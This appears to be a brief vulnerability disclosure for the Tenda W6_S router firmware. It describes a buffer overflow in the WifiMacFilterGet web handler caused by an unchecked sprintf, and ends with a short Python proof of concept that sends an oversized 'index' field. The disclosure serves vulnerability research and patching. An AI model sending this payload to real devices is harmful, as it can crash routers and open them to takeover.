

# buff overflow

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a buff overflow in httpd/formWifiMacFilterGet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:



get value from index, then call sprintf, cause buff overflow

## POC

```
url = "http://192.168.1.13/goform/WifiMacFilterGet"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={'index': payload})
```
